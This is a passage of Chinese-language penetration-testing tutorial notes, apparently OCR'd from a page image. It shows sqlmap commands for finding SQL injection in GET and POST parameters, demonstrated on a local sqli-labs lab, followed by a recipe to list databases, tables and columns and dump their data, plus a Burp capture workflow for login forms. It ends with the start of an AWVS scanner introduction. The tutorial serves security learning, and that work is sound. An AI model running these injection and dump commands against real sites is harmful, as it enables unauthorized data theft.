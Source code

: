 5.从burp日志中获取目标

```
sqlmap -l    burp.txt
```

实例演示-sqlmap注入检测

1.GET参数注入

```
sqlmap -u "http:/192.168.3.2/sqli-labs-master/sqli-labs-master/Less-1/?id=1"
```

2.POST参数注入

```
sqlmap -u "http:/192.168.3.2/sqli-labs-master/sqli-labs-master/Less-1"  --data="id=1"
```



1.   sqlmap -u  "http://www.xx.com?id=x"    【查询是否存在注入点

2.   --dbs         【检测站点包含哪些数据库

3.   --current-db    【获取当前的数据库名

4.   --tables -D "db_name"  【获取指定数据库中的表名 -D后接指定的数据库名称

5.   --columns  -T "table_name" -D "db_name"  【获取数据库表中的字段

6.   --dump -C "columns_name" -T "table_name" -D "db_name"  【获取字段的数据内容

POST注入：

    （1）目标地址http:// www.xxx.com /login.asp
    （2）打开brup代理。
    （3）点击表单提交
    （4）burp获取拦截信息（post）
    （5）右键保存文件（.txt）到指定目录下
    （6）运行sqlmap并执行如下命令：

用例：sqlmap -r okay.txt  -p  username

// -r表示加载文件(及步骤（5）保存的路径)，-p指定参数（即拦截的post请求中表单提交的用户名或密码等name参数）



### AWVS

#### 介绍

Acunetix Web Vulnerability Scanner（AWVS）可以扫描任何通过Web浏览器访问和遵循HTTP/HTTPS规则的Web站点。适用于任何中小型和大型企业的内联网、外延网和面向客户、雇员、厂商和其它人员的Web网站。

AWVS可以通过检查SQL注入攻击漏洞、XSS跨站脚本攻击漏洞等漏洞来审核Web应用程序的安全性。



#### 功能特点

- 自动的客户端脚本分析器，允许对Ajax和Web2.0应用程序进行安全性测试
